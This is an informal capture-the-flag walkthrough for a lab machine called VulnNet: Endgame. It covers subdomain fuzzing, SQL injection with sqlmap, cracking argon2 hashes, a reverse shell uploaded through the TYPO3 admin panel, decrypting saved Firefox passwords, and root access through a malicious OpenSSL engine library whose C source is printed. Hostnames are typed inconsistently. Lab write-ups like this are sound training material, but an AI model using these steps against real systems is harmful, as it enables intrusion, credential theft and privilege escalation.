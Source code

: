 Vulnnet:Endgame

First of all we add the ip address 10.10.2.42 to the /etc/hosts:

	sudo nano /etc/hosts
	10.10.2.42   vulnneth.thm

after that we started nmap and gobuster but we had a few results, the challenge remind us that the enum is the key, so we musit search forn subdomains, and it's time fo wfuzz:

	wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://vulnnet.thh -H "Host:FUZZ.vulnneth.thm" --hw 9 (--hw we filter by word)

from the previous enumeration we get 3 subdomain api. blog. admin1. so we enter this subdomain at /etc/hosts and we surf on it.
The most interesting it's blog after watched one of this post in the network section of inspection there is something linked to api, and more specific with an sql injection, so we run sqlmap.

	sqlmap http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=5
	sqlmap http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=5 --all

now we have the all database records, it's time to check it.
from the records we obtain a list of username and password, and the hash of the password in argon2, so with sublime, we have created a password list and then it's time to use john:

 	john argon.hash -w=./password.txt
	
we obtain the credentials of the admin chris_w, we go straight to the login admin page in /typo3/index.php
it's time to do a revshell in order to achieve it we must turn off the extensions controlls and then upload the revshell
(NB start pwncat) 

now we're in the server by listing the directories, there is something strange a directory configuration of firefox and a normal user can access it, so by google it some exploit, we found it
a script to decrypt the password by entering a file of a general firefox settings so we proceed it this way:

	zip -r /tmp/2fjnrwth.default-release 2fjnrwth.default-release
	cd /tmp
	python3 -m http.server
	wget http://10.10.2.42:8000/2fjnrwth.default-release (in the host machine)
	python3 firefox-decrypt.py 2fjnrwth.default-release

and now we obtain the credentials of system account of user.txt, by running linpeas.sh we see that openssl had some capabilities so we check for some exploits, and we found it some interesting written in c.

	sudo apt install libssl-dev

	#include <openssl/engine.h>

	static int bind(ENGINE *e, const char *id) {
   	 setuid(0); setgid(0);
    	system("/bin/bash");
	}

	IMPLEMENT_DYNAMIC_BIND_FN(bind)
	IMPLEMENT_DYNAMIC_CHECK_FN()

	gcc -fPIC -o exploit.o -c exploit.c
	gcc -shared -o exploit.so -lcrypto exploit.o 

in practical we have created a fake shared object library, finally we import it on the machine to exploit and we run this command

	/home/system/Utilis/openssl openssl req -engine ./exploit.so --> with this command we try to create with the .so library a certificate but instead we did a privescaltion

it's time to get the third flag.

